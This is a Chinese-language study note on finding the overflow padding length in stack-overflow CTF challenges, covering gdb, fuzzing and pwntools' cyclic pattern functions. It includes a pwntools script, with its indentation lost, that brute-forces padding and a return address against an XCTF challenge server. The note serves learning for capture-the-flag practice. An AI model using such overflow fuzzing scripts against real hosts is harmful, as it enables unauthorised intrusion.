 ```yaml
---
title: 计算填充字节
updated: 2022-05-09T13:52:56.0000000+08:00
created: 2022-03-04T13:24:27.0000000+08:00
---
```


# 计算填充字节
看源代码

gdb下断点，手算

测试脚本 pattern.py

fuzz

[writeup (xctf.org.cn)](https://adworld.xctf.org.cn/task/writeup?type=pwn&id=5011&number=2&grade=1&page=1)

from pwn import \*

\#context.log_level = 'debug'

addr = 0x40060d

def fuzz(r, num, flag):

payload = 'a' \* num

if flag==1:

payload += p32(addr)

if flag==2:

payload += p64(addr)

r.recvuntil("\>")

r.sendline(payload)

def main():

for i in range(1000):

print(i)

for j in range(3):

try:

r = remote("111.198.29.45", 46588)

fuzz(r, i, j)

text = r.recv() print('text.len='+str(len(text))+'text='+text)

print('num='+str(i)+' flag='+str(j))

r.interactive()

except:

r.close()

if \_\_name\_\_ == '\_\_main\_\_':

main()

pwntools的cyclic

*来自 \<<https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/>\>*
Cyclic pattern是一个很强大的功能，大概意思就是，使用pwntools生成一个pattern，pattern就是指一个字符串，可以通过其中的一部分数据去定位到他在一个字符串中的位置。

在我们完成栈溢出题目的时候，使用pattern可以大大的减少计算溢出点的时间。

用法：

**cyclic(0x100) \# 生成一个0x100大小的pattern，即一个特殊的字符串  
cyclic_find(0x61616161) \# 找到该数据在pattern中的位置  
cyclic_find('aaaa') \# 查找位置也可以使用字符串去定位**

比如，我们在栈溢出的时候，首先构造cyclic(0x100)，或者更长长度的pattern，进行输入，输入后pc的值变味了0x61616161，那么我们通过cyclic_find(0x61616161)就可以得到从哪一个字节开始会控制PC寄存器了，避免了很多没必要的计算。

*来自 \<<https://www.cnblogs.com/liuyimin/p/7379985.html>\>*
pwndbg\> cyclic 200 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

![image1](../../../../resources/image1-7.png)

